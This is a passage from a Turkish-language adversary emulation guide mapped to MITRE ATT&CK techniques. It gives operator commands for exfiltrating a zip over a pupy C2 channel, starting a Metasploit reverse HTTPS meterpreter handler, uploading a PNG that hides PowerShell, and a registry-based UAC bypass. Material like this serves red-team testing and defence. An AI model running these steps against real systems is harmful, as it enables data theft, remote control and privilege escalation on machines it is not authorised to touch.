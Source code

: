 [pupy (PowerShell)] > `exit`

[pupy (CMD)] > `exit`

#### 2.2. Exfiltration Over C2 Channel ([T1041](https://attack.mitre.org/techniques/T1041/))

Oluşturulan .zip dosyası `download "C:\Users\<username>\AppData\Roaming\Draft.Zip" .` komutuyla C2 tarafına çekilir.

[pupy] > `download "C:\Users\<username>\AppData\Roaming\Draft.Zip" .`

### Adım 3: Gizli Araç Kitini Dağıtma

Bundan sonra saldırgan kurbana yeni bir payload ([T1105](https://attack.mitre.org/techniques/T1105/)) yükler. Payload, gizli bir PowerShell komut dosyasına ([T1027](https://attack.mitre.org/versions/v6/techniques/T1027/) / [T1027.003](https://attack.mitre.org/techniques/T1027/003/)) sahip yasal olarak oluşturulmuş bir görüntü dosyasıdır. Saldırgan daha sonra, yeni eklenen payload'u yürüten bir kullanıcı hesabı denetimi (UAC) atlaması ([T1122](https://attack.mitre.org/versions/v6/techniques/T1122/) / [T1546.015](https://attack.mitre.org/techniques/T1546/015/), [T1088](https://attack.mitre.org/versions/v6/techniques/T1088/) / [T1548.002](https://attack.mitre.org/techniques/T1548/002/)) aracılığıyla ayrıcalıkları yükseltir. HTTPS protokolü kullanılarak 443 numaralı port üzerinden ([T1043](https://attack.mitre.org/versions/v6/techniques/T1043/)) yeni bir C2 bağlantısı kurulur ([T1071](https://attack.mitre.org/versions/v6/techniques/T1071/) / [T1071.001](https://attack.mitre.org/techniques/T1071/001/), [T1032](https://attack.mitre.org/versions/v6/techniques/T1032/) / [T1573](https://attack.mitre.org/techniques/T1573/)). Son olarak, saldırgan, ayrıcalık yükseltmesinin izlerini Registry'den kaldırır ([T1112](https://attack.mitre.org/techniques/T1112/)).

**Prosedür:**

#### 3.1. Ingress Tool Transfer ([T1105](https://attack.mitre.org/techniques/T1105/))

Saldırgan Metasploit handler'ı başlatır:

[msf] > `handler -H 0.0.0.0 -P 443 -p windows/x64/meterpreter/reverse_https`

Pupy üzerinden, monkey.png dosyası hedefe yüklenir:

[pupy] > `upload "/tmp/monkey.png" "C:\Users\<username>\Downloads\monkey.png"`

[pupy] > `shell`

[pupy (CMD)] > `powershell`

#### 3.2. Abuse Elevation Control Mechanism: Bypass User Access Control ([T1088](https://attack.mitre.org/versions/v6/techniques/T1088/) / [T1548.002](https://attack.mitre.org/techniques/T1548/002/))

[pupy (PowerShell)] >

```powershell
New-Item -Path HKCU:\Software\Classes -Name Folder -Force;
New-Item -Path HKCU:\Software\Classes\Folder -Name shell -Force;
New-Item -Path HKCU:\Software\Classes\Folder\shell -Name open -Force;
New-Item -Path HKCU:\Software\Classes\Folder\shell\open -Name command -Force;
Set-ItemProperty -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Name "(Default)"
```
